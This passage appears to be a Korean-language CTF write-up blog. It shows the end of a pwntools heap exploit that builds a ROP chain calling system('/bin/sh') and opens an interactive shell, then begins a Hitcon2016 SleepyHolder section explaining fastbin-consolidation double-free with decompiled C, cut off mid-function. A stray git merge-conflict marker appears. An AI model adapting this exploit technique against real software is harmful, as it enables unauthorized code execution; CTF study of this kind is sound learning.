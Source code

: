 ```python
r("?")
s("y")
r("?")
s("y")

sw(1,"\x00")
r("?")
s("y")
#r("?")
#s("n")

sen(0x30,p64(target-6) + "p"*(0x30-8))
sen(0x30,"a"*0x30)
sen(0x30,"a"*0x30)
sen(0x30,"\x40" + "\x00"*5 + p64(0) + p64(prdi) + p64(binsh) + p64(system) + "c"*(0x30-38))
r("3: Quit")
s("3")
pause()

t.interactive()
```

원샷 되는게 없는 것 같다.. (아니 한달만에 문제를 풀다니..)

아ㅏㅏㅏㅏ 리버싱을 잘하고 싶다... 
<<<<<<< HEAD

<br>

# Hitcon2016 - SleepyHolder

fastbin consolidate을 이용해서 하는 문제다. 이게 뭐냐면 fast chunk를 free 해서 fastbin에 넣은 후 large chunk 를 할당하게 되면 fastbin에서 smallbin으로 삽입된다. 더블 프리 시 fast top 검증을 피할 수 있다.

이게 정확히 왜 되는지는.. 소스를 보긴 했지만 아직 잘 모르겠다.. (복잡) 

아무튼 이 문제를 보면

```c
unsigned __int64 sub_40093D()
{
  int v0; // eax
  char s; // [rsp+10h] [rbp-10h]
  unsigned __int64 v3; // [rsp+18h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  puts("What secret do you want to keep?");
  puts("1. Small secret");
  puts("2. Big secret");
  if ( !huge_pointer )
    puts("3. Keep a huge secret and lock it forever");
  memset(&s, 0, 4uLL);
  read(0, &s, 4uLL);
  v0 = atoi(&s);
  if ( v0 == 2 )
  {
    if ( !big_pointer )
    {
      big_inputbuf = calloc(1uLL, 0xFA0uLL);
      big_pointer = 1;
      puts("Tell me your secret: ");
      read(0, big_inputbuf, 0xFA0uLL);
    }
  }
  else if ( v0 == 3 )
```